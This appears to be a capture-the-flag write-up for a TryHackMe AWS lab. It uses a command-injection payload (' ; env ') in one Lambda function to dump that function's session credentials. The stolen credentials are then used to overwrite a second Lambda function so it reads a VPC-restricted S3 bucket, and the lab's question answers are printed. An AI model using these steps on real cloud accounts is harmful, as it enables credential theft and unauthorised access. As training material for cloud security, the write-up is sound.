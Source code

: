 # Lambda - Data Exfiltration

## Mission brief
The Uruks of Mordor have hired you to get access to a CryptoWallet in the AWS Account belonging to a rival gang of Uruk-hai. The gang has obtained some AWS read-only AWS credentials to the target account through means you don't want to ask about. Unfortunately, the CryptoWallet is in an S3 Bucket protected by a VPC Endpoint policy. You cannot access it from anywhere except the VPC.
For this challenge, the read-only credentials are the same ones provided by the TryHackMe environment, so continue to use them. You will want to leverage your AttackBox for this exercise. 

## Reconnaissance of the Buckets in the Environment
- Run the following commands for 

```bash
aws s3 ls
aws s3 ls s3://$BUCKET_NAME
```
![image](https://github.com/user-attachments/assets/ddd7e771-ad06-48af-a856-848a696de384)

- As seen from the screenshot, only the first bucket `mauhur-coins-637423357278` has some items in it. Copy the items to the local machine

```bash
aws s3 cp s3://mauhur-coins-637423357278/password.txt .
```

![image](https://github.com/user-attachments/assets/70401c1d-4b32-434e-8e84-a596000ec7f0)

- We get a permission error, indicating the user only has read permission on the S3 bucket. In fact, we can confirm this by running

```bash

aws s3api get-bucket-policy --bucket mauhur-coins-637423357278 --query Policy --ouput text | jq .
```

![image](https://github.com/user-attachments/assets/cea07b8e-d93c-4033-a7eb-4236a2d18aaf)

- Also, from the above screenshot, we see that there's only a VPC that has access to the s3 bucket `vpce-030a142134efd2262`
- This VPC will be our target. Run the followinnng commands for enumeration

```bash
aws ec2 describe-vpc-endpoints
```

![image](https://github.com/user-attachments/assets/50f4a6c3-a292-4699-ba10-0e66632d5b0b)

```bash
aws ec2 describe-vpcs
```

![image](https://github.com/user-attachments/assets/6920b218-6251-4d89-995a-3c58ff7491af)

- There is a piece of information that stands out. We see Mahur's VPC in the above screenshot, with a warning "DO NOT USE". So if we get access to this VPC, we can get a hold of the S3 bucket.

**What is the NotAction value in the policy for the coins bucket?**

`-> s3:PutObject`

**What is the Name of the VPC we need to target?**

`-> Mauhur's VPC - Do not Use`

- In this scenario, the vitim only has some Lambda function to run. We can inpsect these functions to see what they contain.

## Enumerate Lambda functions
Run the following command to get the list of Lambda functions

```bash
aws lambda list-functions >> lambda-functions.json
```

Use the following script to enumerate the attached policies

```bash
FUNCTIONS="list-images download-images"

for f in $FUNCTIONS ; do
    ROLE=`aws lambda get-function --function-name $f --query Configuration.Role --output text | awk -F\/ '{print $NF}'`
    echo "$f has $ROLE with these managed policies:"
    aws iam list-attached-role-policies --role-name $ROLE
    for p in `aws iam list-role-policies  --role-name $ROLE --query PolicyNames --output text` ; do
        echo "$ROLE for $f has inline policy $p:"
        aws iam get-role-policy --role-name $ROLE --policy-name $p
    done
done
```

As a reuslts, we see some Lambda functions handling images: One list content of the bucket and one downloads the content. 
Amongst these two functions, only the one that downloads images has our targeted VPC configured -> Download images function will be the main target

**Which Lambda function has the AWSLambda_FullAccess managed policy attached to it?**

`-> list-images`

**Which Lambda function has the IAM permissions to access any S3 Object in any S3 Bucket in this account?**

`-> download-images`

## Analyze Lambda functions
Let's go over what we've done so far. We need to target `download-images` lambda function which is configured in a targeted VPC that has full permission over the interested S3 bucket.
Since we have `AWSLambda_FullAccess` permission on the 'list-images` function, we can leverage that to change the code in `donwload-images` function.
We can analyze both functions by downloading them:

```bash
# Retrieve the Lambda function URL
aws lambda get-function --function-name list-images --query Code.Location --output text

# Download the function and save it to a zip file
curl -s $URL -o list-images.zip

# Make a new directory for the function an unzip the file
mkdir list-images
unzip list-images.zip -d list-images
```

We can leverage the following script to do the same thing:

```bash
FUNCTIONS="list-images download-images"
for f in $FUNCTIONS ; do
    URL=`aws lambda get-function --function-name $f --query Code.Location --output text`
    curl -s $URL -o $f.zip
    mkdir $f
    unzip $f.zip -d $f
done
```
**Who gave the list-images function's author the vulnerable CLI command to run?**
Inspect the two functions and we get the answer in one of those two.

`-> Uglúk`

### Analyzing the `list-images` function
As we can see, the code runs a simple AWS CLI command which does not have input sanitized. 

```bash
f"aws s3 ls s3://{os.environ['IMAGE_BUCKET']}/{event['prefix']}"
```

We can inject a command into this line of code. When running this Lambda function with the following `payload.json`

```json
{
    "prefix": " ; env "
}
```

The resulting commdand looks like `aws s3 ls s3://{os.environ['IMAGE_BUCKET']}; env`, which prints out all environment variables.
Run the following command to invoke the `list-images` function:

```bash
aws lambda invoke --function-name list-images --payload fileb://payload.json output.json
cat output.json | jq -r . | grep AWS
```

Before moving on, let's modify the `download-images` function:
- On the line `Bucket=os.environ['IMAGE_BUCKET']`, change to `Bucket='mauhur-coins-XXXXXXXXXXXX'`
- Zip this modified `index.py` to update the `download-images' function.
  
```bash
zip -r ../compromised.zip index.py
```

## EXfiltrate credentials
From the above `payload.json` and the  `index.py` file, invoke the `list-images` function

```bash
aws lambda invoke --function-name list-images --payload fileb://payload.json output.json
cat output.json | jq -r . | grep AWS
```

Take note of the following key-value pairs: `AWS_SESSION_TOKEN`, `AWS_SECRET_ACCESS_KEY`, `AWS_ACCESS_KEY_ID`
Open a new terminal and update the environemnt variables:

```bash
user@machine$ export AWS_SESSION_TOKEN=REDACTED
user@machine$ export AWS_SECRET_ACCESS_KEY=REDACTED
user@machine$ export AWS_ACCESS_KEY_ID=ASIAREDACTED
```

![image](https://github.com/user-attachments/assets/12881229-ff9e-4586-b65e-d81620d75958)

Verify we're using the Lambda function's credentials:

```bash
aws sts get-caller-identity
```

![image](https://github.com/user-attachments/assets/18c38d0d-280e-4698-aff2-8070f736b903)

Now with this new credentials, we can update the `download-images` function using

```bash
aws lambda update-function-code --region us-east-1 --function-name download-images --zip-file fileb://compromised.zip
```

Create `payload2.json` file

```json
{"object_key": "password.txt" }
```

Invoke the compromised function

```
aws lambda invoke --function-name download-images --payload fileb://payload2.json output2.json
```

And we should get the password in `output2.json`

**What's the value of the AWS_EXECUTION_ENV environment variable?**

`-> AWS_Lambda_python3.9`

**What is the secret phrase in password.txt?**

`-> Do you know how the orc first came to be? They were elves once taken by the dark powers. 
Tortured and mutilated, a ruined and terrible form of life.`

**Which managed policy seems harmless but should not be used lightly?**

`-> ReadOnlyAccess `
